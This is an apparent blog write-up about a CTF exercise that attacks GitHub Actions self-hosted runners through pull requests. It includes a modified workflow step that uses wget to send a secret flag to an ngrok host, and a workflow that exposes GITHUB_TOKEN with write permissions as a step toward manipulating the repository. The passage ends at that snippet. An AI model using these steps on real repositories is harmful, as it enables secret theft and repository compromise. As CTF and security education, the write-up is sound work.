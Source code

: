 In this article, I will explore the problems and dangers of using self-hosted GitHub runners in public repositories, as well as several attack vectors.

## Introduction
 
The other day, I was looking for ideas for a different kind of challenge for a future CTF I was organizing when my colleague Mark Esler (@eslerm) pointed me to [Messy poutine](https://github.com/messypoutine/). It is a fun CTF-style GitHub organization that provides some vulnerable CI/CD jobs for which you need to collect some flags.
 
> Go check their amazing talk on CI/CD 0-day analysis on OSS: 
> **Under the Radar: How we found 0-days in the Build Pipeline of OSS Packages**
 
While taking a look at the [last challenge](https://github.com/messypoutine/gravy-overflow/blob/main/.github/workflows/level2.yml), I researched a little bit more about `runs-on: self-hosted`, which is not the most used runner when deploying CI/CD pipelines, thinking that the challenge may have something to do with this.
 
> Fun fact: the actual challenge couldn't be solved because the self-hosted container was not online but it pushed me to look forward
 
With this in mind, I forked the repo, raised a self-hosted runner and started playing. 
 
## Attack surface: pull request
 
The first thing I noticed is that the pipeline would trigger on a pull request.
 
Now, can I create a PR updating from `self-hosted` to `ubuntu-latest` and **actually** execute the pipeline on the original repo? And it worked. Wow.

From there, I read more about `ACTIONS_RUNNER_DEBUG: true` and `ACTIONS_STEP_DEBUG: true` which seemed like the intended solution but then it hit my mind: if it's a pull request, why not update the pipeline itself?
 
I changed 

`- run: echo "Sorry, this level is not ready yet.... or is it?!"`

to 

`- run: wget https://XXXXXXXX.ngrok-free.app/$FLAG`

and... [it worked](https://github.com/litios/cicd/actions/runs/8835512260/job/24259832005) (kinda). I received the request but FLAG was empty.

Wait, does that mean I can use the GitHub-runner token and use it to manipulate the repo?

---

```yaml
jobs:
  attempt:
    runs-on: ubuntu-latest
    timeout-minutes: 1
    permissions:
      id-token: write
      contents: write
      issues: write
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - run: |
          gh auth status
```
